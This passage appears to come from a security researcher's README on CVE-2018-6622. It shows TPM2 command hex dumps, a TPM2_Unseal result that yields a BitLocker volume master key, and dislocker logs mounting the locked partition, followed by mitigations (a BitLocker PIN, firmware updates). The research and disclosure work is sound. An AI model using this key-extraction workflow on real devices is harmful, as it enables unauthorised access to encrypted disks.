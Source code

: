 ```
00000000  80 01 00 00 00 3a 00 00  01 7f 03 00 00 00 00 20  |.....:......... |
00000010  5f f5 9b 8f b8 7c 48 dc  43 68 60 eb a2 70 cc a2  |_....|H.Ch`..p..|
00000020  22 4e 7b b9 f0 83 ed fe  78 91 fa ed e2 b4 de 5a  |"N{.....x......Z|
00000030  00 00 00 01 00 0b 03 80  08 00                    |..........|

    [*] Output Size 10, Result: Success
00000000  80 01 00 00 00 0a 00 00  00 00                    |..........|
    [>>] Success

    [>>] Execute TPM2_Unseal... Input file tpm2_unseal.bin
Initializing Local Device TCTI Interface
    [*] Input Size 27
00000000  80 02 00 00 00 1b 00 00  01 5e 80 00 00 01 00 00  |.........^......|
00000010  00 09 03 00 00 00 00 00  00 00 00                 |...........|

    [*] Output Size 97, Result: Success
00000000  80 02 00 00 00 61 00 00  00 00 00 00 00 2e 00 2c  |.....a.........,|
00000010  2c 00 00 00 01 00 00 00  03 20 00 00 10 c7 ea 90  |,........ ......|
00000020  6d 6d a4 82 1f 96 cc 81  66 06 e9 12 fa 04 56 b3  |mm......f.....V.|
00000030  5a 5c 11 61 fc c5 aa 74  6a 23 f5 4b 00 20 34 5a  |Z\.a...tj#.K. 4Z|
00000040  8b cd 2e 22 14 3d 14 7b  dd 9b 1b 4f 38 fe 3a 44  |...".=.{...O8.:D|
00000050  54 c4 96 94 0e 41 a4 dd  4c a9 ca 76 3e 33 00 00  |T....A..L..v>3..|
00000060  00                                                |.|
    [>>] Success

Mount BitLocker-locked Partition with VMK.
    [>>] VMK = 10C7EA906D6DA4821F96CC816606E912FA0456B35A5C1161FCC5AA746A23F54B
    [>>] Create VMK data... Success
    [>>] Mount BitLocker-Locked partition(/dev/nvme0n1p4)...

Mon Dec  2 01:14:07 2019 [INFO] dislocker by Romain Coltel, v0.7.1 (compiled for Linux/x86_64)
Mon Dec  2 01:14:07 2019 [INFO] Compiled version: master:dcd6b9b
Mon Dec  2 01:14:07 2019 [INFO] Volume GUID (INFORMATION OFFSET) supported
Mon Dec  2 01:14:07 2019 [INFO] BitLocker metadata found and parsed.
Mon Dec  2 01:14:07 2019 [INFO] Used VMK file decryption method
Mon Dec  2 01:14:07 2019 [INFO] Found volume's size: 0xba7bffe00 (50059017728) bytes
Mon Dec  2 01:14:07 2019 [INFO] Running FUSE with these arguments: 
Mon Dec  2 01:14:07 2019 [INFO]   `--> 'dislocker'
Mon Dec  2 01:14:07 2019 [INFO]   `--> './windows'
```

# 4. Mitigations
The root cause of CVE-2018-6622 and related vulnerability are improper handling of an abnormal sleep case, and you can remove the vulnerability by following two options.
 - **Use Microsoft's BitLocker with a PIN**: If you use a PIN with a TPM, VMK of BitLocker cannot be extracted without PIN. 
<center> <img src="image/PIN.png" alt="Set a PIN with a TPM" width="700" /> </center>

 - **Updating the latest BIOS firmware to your system**: We reported the vulnerability to major manufacturers such as Intel, Dell, and Lenovo. They already released new firmware.
